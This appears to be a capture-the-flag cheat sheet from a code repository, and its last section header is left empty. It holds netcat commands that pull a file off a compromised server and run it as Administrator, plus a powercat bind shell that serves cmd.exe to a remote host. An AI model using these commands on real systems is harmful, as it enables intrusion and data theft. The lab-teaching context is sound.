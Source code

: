 #### Transfer a File : 

    SHELL_WEB=A
    YOUR_LINUX=B
    Windows=C
    ####!!!! ON SERVER SHELL :!!!!!!!!!!!!!!
    cat database_file.exe >> XfileGameOver.txt
    cat XfileGameOver.txt | nc -v -l -p 55133
    
    ####!!!! ON YOUR LINUX :!!!!!!!!!!!!!!
    nc target.com 55133 > XfileGameOver.txt
    cat XfileGameOver.txt | nc -v -l -p 44155
    
    ####!!!! ON YOUR WINDOWS :!!!!!!!!!!!!!!
    nc 192.168.1.36 44155 > XfileGameOver.exe
    
        1 - setup administrator password ...!!
        
        2 - run cmd : 
              - net user Administrator /active:yes
              
        3 - open cmd as admin and run :        
              - runas /user:Administrator XfileGameOver.exe
    {XLAG}

#### Powerflag : 

    ./powerflag
    Import-Module powercat.ps1
    powercat -h
    powercat -l -p 11337 -e cmd.exe
    #[ B ] in your Windows or Linux CMD: type :
    nc target.com 11337
    {FLAG}


#### Group Membership : 

    #--------------START_OF_BASH----------------#
    #!/bin/bash 
    read -p "Please enter a username: " userXname
    read -p "Now enter a group: " groupXname
    groupswithSpace=$(echo $groupXname | tr ',' ' ')
    Do1=$( (cat /etc/passwd | grep "$userXname" | wc -c) )
    Do2=$( (cat /etc/group | grep "$groupswithSpace" | wc -c) )
    if [[ $Do1 > 1 && $Do2 > 1 ]];then msg="Membership valid!";fi
    if [[ $Do1 == 0 && $Do2 == 0 ]];then msg="Both are not found - why are you even asking me this?";fi
    if [[ $Do1 > 1 && $Do2 == 0 ]];then msg="One exists, one does not. You figure out which.";fi
    if [[ $Do1 == 0 && $Do2 > 1 ]];then msg="One exists, one does not. You figure out which.";fi
    echo $msg
    #--------------END_OF_BASH----------------#


#### Traffic Capture :

    #Download Xcapture on your LINUX : 
    